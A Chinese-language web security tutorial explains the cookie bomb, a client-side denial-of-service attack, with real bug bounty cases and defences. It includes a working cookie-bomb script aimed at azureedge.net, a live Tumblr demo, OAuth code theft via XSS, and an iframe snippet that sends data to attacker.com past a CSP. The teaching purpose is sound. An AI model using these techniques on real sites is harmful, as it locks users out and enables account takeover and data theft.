

# 有趣又實用的 Cookie bomb

在上一篇裡面我們看到了 cookie tossing，可以藉由寫入 cookie 來影響其他的 same-site domain，而這篇會介紹的是另一種利用 cookie 的攻擊手法，叫做 cookie bomb，一種利用 cookie 所引起的 client-side DoS 攻擊。

講到 DoS，可能會想到是不是要送很多封包給網站，然後讓網站伺服器來不及回應或是資源耗盡才能達成目標；或也可能想到的是 DDoS（Distributed Denial-of-Service），不是一台主機而是一堆主機同時送封包給某個伺服器，然後把它打掛。

DoS 與 DDoS 其實有分不同層的攻擊，這些層對應到大家可能學過的 OSI 模型，大家印象中的攻擊比較像是 L3 網路層與 L4 傳輸層的攻擊，而 cookie bomb 是存在於 L7 應用層的 DoS 攻擊。

例如說某個網站有個 API 可以查詢資料，然後有設一個預設的 limit 是 100，結果我把它改成 10000 之後發現 server 大概要一分多鐘才能給我 response，於是我就每兩秒送一個 request，送著送著就發現網站越變越慢，最後整個掛掉只能回 500 Internal Server Error，這就是應用層的 DoS 攻擊。

只要能找到一個方法讓使用者無法存取網站，就是一種 DoS 的攻擊，而我們找出的方法是建立於 L7 應用層，所以是 L7 的 DoS 攻擊。

在眾多 L7 DoS 攻擊手法中有一種我覺得特別有趣，那就是 cookie bomb，直翻就叫做 cookie 炸彈。

## Cookie bomb 介紹

要能夠執行 cookie bomb 攻擊的前提是要能寫 cookie。而要達成這個目標基本上有兩種方式，第一種方式是利用網站本身的邏輯。

舉例來說，假設有個頁面 `https://example.com/log?uid=abc`，造訪這個頁面之後，就會把 `uid=abc` 這一段寫到 cookie，那只要把網址改成 `?uid=xxxxxxxxxx`，就可以把 `xxxxxxxxxx` 寫到 cookie 裡，這是一種。

另外一種就是上一篇提到的掌控子網域並能執行 JavaScript 程式碼，可以是透過 subdomain takeover，也可以是透過其他方法。

那可以寫入任意 cookie 之後能幹嘛呢？開始寫一堆垃圾進去。

例如說 `a1=o....*4000` 之類的，就是寫一堆無意義的內容進去就好，這邊要特別注意的是一個 cookie 能寫的大小大概是 4KB，而我們最少需要兩個 cookie，也就是要能寫入 8KB 的資料，才能達成攻擊。

當你寫了這些 cookie 進去之後，回到主頁 `https://example.com` 時，根據 cookie 的特性，就會一起把這些垃圾 cookie 帶上去給 server 對吧？接下來就是見證奇蹟的時刻。

Server 並沒有顯示你平常會看到的頁面，而是回給你一個錯誤：`431 Request Header Fields Too Large`。


在眾多 HTTP 狀態碼裡面，有兩個跟 request 太大有關：

1. 413 Payload Too Large
2. 431 Request Header Fields Too Large

假設有個表單，填了一百萬個字之後送到 server 去，就很可能會收到一個 `413 Payload Too Large` 的回應，就如同錯誤訊息所說的，payload 太大了，伺服器無法處理。

而 header 也是一樣的，當你的 cookie 太多時，requset header 中的 `Cookie` 會很大，大到伺服器無法處理，就會回一個 `431 Request Header Fields Too Large`（不過根據實測，有些 server 可能會根據實作不同回覆不同的 code，像微軟就是回 400 bad request）。

因此我們只要能把使用者的 cookie 塞爆，就能讓他看到這個錯誤畫面，沒有辦法正常存取服務，這就是 cookie bomb，藉由一大堆 cookie 所引發的 DoS 攻擊。而背後的原理就是「瀏覽器造訪網頁時，會自動把相對應的 cookie 一起帶上去」。

Cookie bomb 這名詞最早的起源應該是 2014 年 1 月 18 日由 Egor Homakov 所發表的 [Cookie Bomb or let's break the Internet.](http://homakov.blogspot.com/2014/01/cookie-bomb-or-lets-break-internet.html)，但類似的攻擊手法在 2009 年就有出現過：[How to use Google Analytics to DoS a client from some website](http://sirdarckcat.blogspot.com/2009/04/how-to-use-google-analytics-to-dos.html)

## 攻擊流程

如同上面那段所說，假設我們現在發現一個網址 `https://example.com/log?uid=abc` 可以讓我們設置任意 cookie，接下來要做的事情就是：

1. 想辦法寫入超過 8KB 的 cookie（因為似乎比較多 server 的限制都是 8KB）
2. 把這個網址傳給攻擊目標，並想辦法讓他點開
3. 目標點了網址，在瀏覽器上面設了一個很大的 cookie
4. 目標造訪網站 `https://example.com`，發現看不到內容，只能看到一片白或是錯誤訊息，攻擊成功

這時候除非使用者換個瀏覽器或是 cookie 過期，又或者是自己去把 cookie 清掉，否則一直都會是這個狀態。

綜合以上所述，這個攻擊只能攻擊特定使用者，而且必須滿足兩個前提：

1. 找到一個地方可以設置任意 cookie
2. 目標必須點擊步驟一所找到的網址

接著我們來看幾個實際案例，第一個是 2015 年由 filedescriptor 回報給推特的漏洞：[DOM based cookie bomb](https://hackerone.com/reports/57356)。

他在推特的網站上找到了如下的程式碼：

``` js
function d(a) {
...
        var b = document.referrer || "none",
            d = "ev_redir_" + encodeURIComponent(a) + "=" + b + "; path=/";
        document.cookie = d;
...
}
...
window.location.hash != "" && d(window.location.hash.substr(1).toLowerCase())
````

可以看出會把網址列上 hash 的資料以及 `document.referrer` 放到 cookie 中，而且並沒有對 `document.referrer` 做任何編碼，因此等於是可以寫入任意的 cookie。於是就可以透過這個漏洞，利用 `document.referrer` 寫入很長的 cookie，造成 DoS。

當使用者點了 cookie bomb 的連結之後，連到推特就會看到錯誤頁面。

第二個則是 s_p_q_r 同樣在 2015 年回報給 Shopify 的漏洞：[[livechat.shopify.com] Cookie bomb at customer chats](https://hackerone.com/reports/105363)，他一樣是在程式碼中發現前端會直接利用網址列上的資訊當作 cookie 的內容，而且在寫入之前會先編碼，例如說 `,` 會變 `%2C`，長度變成三倍，因此只要傳一個很長的網址，就能夠造成 cookie bomb。

最後一個是 bihari_web 在 2020 年回報給 NordVPN 的漏洞：[Denial of Service with Cookie Bomb](https://hackerone.com/reports/777984)，

跟前面兩個案例很像，都是發現了網址列上的資訊（例如說 path 或是某個 query string）會被取出後寫入 cookie 中，而且沒有限制長度，因此就能夠利用很長的網址來做出 cookie bomb。

繼續針對攻擊面往下講以前，先來提一下防禦方式。

## 防禦方式

第一點就是不要相信使用者的輸入，例如說上面提到的那個例子：`https://example.com/log?uid=abc`，不該把 `abc` 直接寫進 cookie 裡面，而是應該做個基本檢查，例如說格式或是長度之類的，就可以避免掉這類型的攻擊。

再來的話，當我提到可以從 subdomain 往 root domain 設 cookie 時，許多人應該都會想到一件事：「那共用的 subdomain 怎麼辦？」

例如說 GitHub Pages 這功能，每個人的 domain 都是 `username.github.io` ，那我不就可以用 cookie 炸彈，炸到所有的 GitHub Pages 嗎？只要在我自己的 subdomain 建一個惡意的 HTML，裡面有著設定 cookie 的 JavaScript 程式碼，再來只要把這個頁面傳給任何人，他點擊之後就沒辦法訪問任何 `*.github.io` 的資源，因為都會被 server 拒絕。

這個假說看似是成立的，但其實有個前提要先成立，那就是：「使用者可以在 `*.github.io` 對 `github.io` 設置 cookie」，如果這個前提不成立，那 cookie bomb 就無法執行了。

事實上，像是這種「不想要共同的上層 domain 可以被設置 cookie」的需求其實不少，例如說 `a.com.tw` 如果可以設置 cookie 到 `.com.tw` 或是 `.tw` 的話，是不是一大堆不相關的網站都會共享到 cookie 了？這樣顯然是不合理的。

又或者是總統府的網站 `https://www.president.gov.tw`，應該不會想被財政部的網站 `https://www.mof.gov.tw` 所影響，因此 `.gov.tw` 應該也要是一個不給設定 cookie 的 domain。

不知道大家還記不記得在講 origin 跟 site 的時候我們其實就有提過這個概念了。

當瀏覽器在決定能不能對某個 domain 設置 cookie 時，會參照一個清單叫做 [public suffix list](https://publicsuffix.org/list/)，出現在上面的 domain，其 subdomain 都沒辦法直接設定該 domain 的 cookie。

例如說以下 domain 都在這份清單上：

1. com.tw
2. gov.tw
3. github.io

所以前面舉的例子不成立了，因為我在 `userA.github.io` 的時候，沒辦法設置 `github.io` 的 cookie，所以無法執行 cookie bomb 攻擊。

## 攻擊面擴展

上面有講到兩個攻擊成立的前提：

1. 找到一個地方可以設置任意 cookie
2. 目標必須點擊步驟一所找到的網址

如果想讓攻擊變得更容易成立，就可以針對這兩個前提去想說：

1. 有沒有可能這個地方很好找？
2. 有沒有可能目標不需要點擊連結就會中招？

第二點可以透過利用另一種叫做快取污染（Cache poisoning）的漏洞達成。

顧名思義，這個漏洞就是去污染快取中的內容，例如說現在很多網站都有快取，而不同的使用者可能存取到的都是同一份快取，這時候我就可以想辦法讓快取伺服器儲存的是壞掉的那一個 response，這樣其他人所有使用者也都會拿到壞掉的檔案，看到同樣的錯誤訊息。

這樣的話，目標不需要點擊任何連結就會中招，而且攻擊對象就從一個人擴大成所有人。

這有個專有名詞，叫做 [CPDoS（Cache Poisoned Denial of Service）](https://cpdos.org/)，而且因為是利用快取的關係，所以其實跟 cookie bomb 沒什麼關係了，你從自己電腦直接發起攻擊也可以，不需要透過 cookie。

再來我們來看第一點：「有沒有可能這個地方很好找？」。

## 找到輕易設置 cookie 的地方

有什麼地方可以讓我們輕易設置 cookie，達成 cookie bomb 呢？有，那就是像之前所提過的共用的 subdomain，像是 `*.github.io` 這一種。

可是這種的不是都在 public suffix list 裡面了嗎？沒有辦法設置 cookie。

只要找到沒有在裡面的就好啦！

不過這其實也不是件容易的事情，因為你會發現你知道的服務幾乎都已經註冊了，例如說 GitHub、AmazonS3、Heroku 以及 Netlify 等等，都已經在上面了。

不過我有找到一個沒在上面的，那就是微軟提供的 Azure CDN：azureedge.net

不知道為什麼，但這個 domain 並不屬於 public suffix，所以如果我自己去建一個 CDN，就可以執行 cookie bomb。

## 實際測試

我用來 demo 的程式碼如下，參考並改寫自[這裡](https://github.com/wrr/cookie-bomb/blob/master/bomb.html)：

``` js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

接著在 Azure 上面上傳檔案然後設置一下 CDN，就可以得到一個自訂的網址：https://hulitest2.azureedge.net/cookie.html

點了之後就會在 `azureedge.net` 上面設置一堆垃圾 cookie：



重新整理後，會發現網站真的不能存取了：


這就代表 cookie bomb 成功了。

所以只要是放在 `azureedge.net` 的資源，都會受到影響。

其實 AzureCDN 有自訂網域的功能，所以如果是自訂網域的話就不會受到影響。但有些網站並沒有使用自訂網域，而是直接使用了 `azureedge.net` 當作 URL。

## 防禦方式

最好的防禦方式就是改用自訂網域，不要用預設的 `azureedge.net`，這樣就不會有 cookie bomb 的問題。但撇開自訂網域不談，其實 `azureedge.net` 應該去註冊 public suffix 才對，才能把問題真正的解決掉。

除了這兩種防禦方式之外，還有一種你可能沒想到的。

身為前端工程師ㄝ我們平常在引入資源的時候都是這樣寫的：

``` html
<script src="htps://test.azureedge.net/bundle.js"></script>
```

只要加一個屬性 `crossorigin`，變成：

``` html
<script src="htps://test.azureedge.net/bundle.js" crossorigin></script>
```

就可以避免掉 cookie bomb 的攻擊。

這是因為原本的方法在發送 request 時預設會把 cookie 帶上去，但如果加上 `crossorigin` 改成用 cross-origin 的方式去拿，預設就不會帶 cookie，所以就不會有 `header too large` 的狀況發生。

只是記得在 CDN 那邊也要調整一下，要確認 server 有加上 `Access-Control-Allow-Origin` 的 header，允許跨來源的資源請求。

以前我很困惑到底什麼情形需要加上 `crossorigin`，現在我知道其中一種了，如果你不想把 cookie 一起帶上去的話，就可以加上 `crossorigin`。

## 再看一個實際的案例

曾經在特定領域紅過，但被 Automattic 收購後便轉向的 Tumblr 有個特別的功能，那就是你可以在個人頁面自訂 CSS 與 JavaScript，而這個個人頁面的 domain 會是 userA.tumblr.com，而 tumblr.com 並沒有註冊在 public suffix 上，所以一樣會受 cookie bomb 的影響。

只要使用 Chrome 或是 Edge 造訪這個網址：https://aszx87410.tumblr.com/ 之後重新整理或者是前往 Tumblr 首頁，就會發現無法存取：


我後來有把這個漏洞回報給 Tumblr，隔天就收到回覆，對方回說：

> this behavior does not pose a concrete and exploitable risk to the platform in and on itself, as this can be fixed by clearing the cache, and is more of a nuisance than a security vulnerability

對有些公司來說，如果只有 cookie bomb 的話造成的危害太小，而且第一受害者必須點那個網址，第二只要把 cookie 清掉就沒事，所以並不認為這是一個安全性的漏洞。

而微軟的回應也是類似，單純只有 cookie bomb 的話並沒有辦法達到他們對於資安漏洞的最低標準。

那到底 cookie bomb 可以串接什麼其他漏洞一起用呢？

## Cookie bomb 的漏洞連連看

在資安的領域中怎麼把不同的，看似很小的一些問題串在一起變成大問題，一直以來都是一門藝術。只有 cookie bomb 可能做不了什麼，但跟其他東西結合之後搞不好可以變出一個嚴重的漏洞。例如說我們之前就看過利用 same-site 網站繞過 same-site cookie 限制，再利用 `content-type` 的解析問題繞過 CORS 限制，最後就變成一個 CSRF 的漏洞。

我要介紹的第一個案例出現在上一篇尾聲推薦的由 filedescriptor 在 2019 年於 HITCON CMT 的演講：[The cookie monster in your browsers](https://www.youtube.com/watch?v=njQcVWPB1is&ab_channel=HITCON)。

他在 `example.com` 上找到一個 XSS 漏洞，而這個網站的登入使用了 Google 的 OAuth，於是他想說應該可以用 XSS 偷到 OAuth 的 code，如果偷到的話就可以直接用使用者的身份登入，變成了更嚴重的 account takeover 漏洞。

一般的 OAuth 流程是這樣的：

1. 使用者點擊「Google 登入」按鈕
2. 網頁跳轉到 `https://google.com/oauth?client_id=example`
3. 使用者在 Google 上面登入並且授權
4. 網頁跳轉到 `https://example.com/oauth/callback?code=123`
5. 網頁跳轉到 `https://example.com/home`，顯示為登入狀態

如果已經授權過了的話，會省略掉第三個步驟，直接跳轉。

而現在的問題是 code 只能用一次，一旦造訪了 `https://example.com/oauth/callback?code=123`，這個 code 就會被前端或是後端拿去使用，就算偷到也沒用了。於是，cookie bomb 派上用場的時機就到了。

我們現在因為有 `example.com` 的 XSS，等同於是對頁面有完全的控制權，可以先寫入 cookie 並且對 `/oauth` 這個路徑執行 cookie bomb，接著新增一個 iframe，嵌入的網址是 `https://google.com/oauth?client_id=example`，而此時授權完成後 iframe 會被重新導向到 `https://example.com/oauth/callback?code=123`，這時候因為 cookie bomb 的關係，伺服器會回傳錯誤，這時候我們就可以拿到 iframe 的網址，同時也就取得了 code，而且確定是沒有人使用過的。

第二個案例則是與 CSP bypass 有關，有些網站的 CSP 可能不是直接從後端應用程式那邊加上的，而是用像 nginx 這種的 reverse proxy 統一加的：

```
    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            add_header Content-Security-Policy "script-src 'none'; object-src 'none'; frame-ancestors 'none';";
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
```

乍看之下沒問題，但如果 nginx 回傳的是 4xx 或 5xx 的錯誤，response 中是不會加上這個 header 的。這是 nginx 的預設行為，在[文件](https://nginx.org/en/docs/http/ngx_http_headers_module.html#add_header)上也有寫到：

> Adds the specified field to a response header provided that the response code equals 200, 201 (1.3.10), 204, 206, 301, 302, 303, 304, 307 (1.1.16, 1.0.13), or 308 (1.13.0).

因此，我們就可以利用 cookie bomb 做出一個錯誤頁面，這個頁面上面就不會有 CSP header。有些人會疑惑說，可是這是個錯誤頁面，那沒有 CSP 有什麼用呢？

假設原本頁面的 CSP 超級嚴格好了，所有的指示都設成 `'self'`，只有 `script-src` 多了一個 `unsafe-inline`，而我們又找到了一個 XSS，所以可以執行程式碼。

但問題是，我們的資料傳送不出去啊！因為 CSP 的緣故，把所有的外部連結都擋住了。這時候我們就可以用 cookie bomb 先轟炸 `/test` 頁面，接著把 `/test` 頁面放到 iframe 裡面。

放到 iframe 裡面去以後，由於符合同源政策，所以我可以直接存取到 `/test` 頁面，而這個頁面是沒有 CSP 的，因此就可以從這個頁面發出 request，範例如下：

``` html
<iframe id=f src="/test" onload=run()></iframe>
<script>
  function run() {
    f.contentWindow.fetch('https://attacker.com?data=...')
  }
</script>
```

像這種就是透過 DoS 搭配 iframe 來繞過 CSP 限制的方法。

（話說 CSP 目前其實還做不到「把所有外部連線都擋住」，如果只是要對外發送請求的話，還有其他更快速的方法，例如說利用 `location=...` 來做頁面跳轉之類的）

## 結語

在這篇文章中，我們看到了另外一種利用 cookie 的方式，把它當成是執行 DoS 的手段，讓網頁無法載入。雖然說只有這個漏洞本身影響並不大，許多公司也不把這個當成一個資安漏洞，但如果與其他手法結合起來，就有機會變成影響力更大的漏洞。

這篇是第四章「跨越限制攻擊其他網站」的結尾，在最近幾篇中我們先是搞懂了 origin 與 site 的差別，再來學到了 CORS 的設定以及設定錯誤會導致的結果，然後看到了 CSRF 以及 same-site cookie，最後探討了拿到 same-site 的控制權以後可以執行哪些攻擊。

從下一篇開始會進入到第五章：「其他有趣的前端資安主題」。

本文改寫自：[利用 Cookie 特性進行的 DoS 攻擊：Cookie 炸彈](https://blog.huli.tw/2021/07/10/cookie-bomb/)


